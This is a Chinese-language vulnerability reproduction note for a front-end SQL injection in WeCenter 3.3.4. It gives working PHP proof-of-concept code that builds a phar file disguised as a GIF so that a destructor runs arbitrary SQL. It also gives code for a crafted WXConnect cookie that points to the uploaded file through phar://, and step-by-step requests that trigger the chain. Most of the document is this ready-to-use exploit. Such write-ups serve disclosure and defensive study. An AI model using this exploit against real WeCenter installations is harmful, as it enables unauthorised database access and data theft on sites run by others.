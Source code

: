 # WeCenter 3.3.4 前台sql注入

### 一、漏洞简介

### 二、漏洞影响

WeCenter 3.3.4

### 三、复现过程

任意sql语句执行

system/aws_model.inc.php:__destruct() 方法中存在任意 SQL 语句执行。

![](images/15893801155247.png)


poc


```php
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

    public function __construct($_shutdown_query)
    {
        $this->_shutdown_query = $_shutdown_query;
    }
}

$sql = array('select updatexml(1,concat(0x3a,md5(233),0x3a),1)');
$evilobj = new AWS_MODEL($sql);
// phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
$filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
file_exists($filename) ? unlink($filename) : null;
$phar=new Phar($filename);
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($evilobj);
$phar->addFromString("foo.txt","bar");
$phar->stopBuffering();
?>
```

**利用**

首先注册账号，并利用上面的poc生成Phar文件，并将运行后将生成的shell.gif通过编辑器的上传功能上传到服务器上。

![](images/15893801363518.png)


记录下上传后的目录

![](images/15893801420498.png)


生成并设置COOKIE中的WXConnect值


```php
<?php
    $arr = array();
    $arr['access_token'] = array('openid' => '1');
    $arr['access_user'] = array();
    $arr['access_user']['openid'] = 1;
    $arr['access_user']['nickname'] = 'naiquan';
    $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
    echo json_encode($arr);
?>
```

将headimgurl的值设置成phar伪协议解析的恶意文件后运行，将结果放入Cookie中，前缀可参考Cookie中的其他参数。

访问app/m/weixin.php下的binding_action

![](images/15893801577268.png)


提示绑定微信成功后进行下一步

访问app/account/ajax.php下的synch_img_action

![](images/15893801643646.png)


任意SQL语句执行成功